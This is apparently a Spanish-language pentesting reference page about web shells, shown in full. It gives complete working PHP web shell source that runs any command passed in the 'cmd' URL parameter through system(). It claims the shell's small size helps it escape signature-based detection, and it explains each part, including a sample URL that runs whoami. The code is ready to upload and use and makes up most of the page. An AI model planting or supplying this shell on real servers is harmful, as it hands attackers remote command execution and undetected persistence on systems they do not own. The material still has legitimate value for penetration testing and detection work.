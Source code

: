 ### **Web Shells para Ejecución de Código Remoto (RCE)**

Una **web shell** es un script que, una vez subido a un servidor web, permite a un atacante ejecutar comandos de sistema de forma remota. Es una de las herramientas de post-explotación más comunes tras descubrir una vulnerabilidad de subida de archivos (File Upload).

Este documento recopila diferentes tipos de web shells, desde las más minimalistas hasta las más completas, para su uso en entornos de pentesting.

-----

### **Web Shell Minimalista en PHP**

Esta es una de las web shells más efectivas debido a su simplicidad. Su pequeño tamaño y funcionalidad directa la hacen difícil de detectar por sistemas de seguridad basados en firmas, a la vez que proporciona todo lo necesario para obtener una ejecución de comandos remota (RCE) en el servidor.

#### **Código de la Web Shell**

```php
<html>
<body>
    <form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
        <input type="TEXT" name="cmd" autofocus id="cmd" size="80">
        <input type="SUBMIT" value="Execute">
    </form>
    <pre>
    <?php
        if(isset($_GET['cmd']))
        {
            system($_GET['cmd'] . ' 2>&1');
        }
    ?>
    </pre>
</body>
</html>
```

#### **Análisis Técnico y Funcionalidades Clave**

  * **Interfaz de Usuario**:

      * Utiliza el método `GET`, permitiendo ejecutar comandos directamente desde la URL (ej: `http://<IP_servidor>/shell.php?cmd=whoami`).
      * El atributo `autofocus` en el campo de texto mejora la usabilidad.

  * **Motor de Ejecución**:

      * `system()`: Ejecuta el comando y muestra la salida. Es una de las formas más directas de interactuar con el sistema operativo.
      * `2>&1`: Redirecciona la salida de error (`stderr`) a la salida estándar (`stdout`), asegurando que tanto los resultados como los errores de los comandos sean visibles.

  * **Visualización de la Salida**:

      * La etiqueta `<pre>` formatea la salida para que sea legible, respetando los saltos de línea y espacios, simulando una terminal.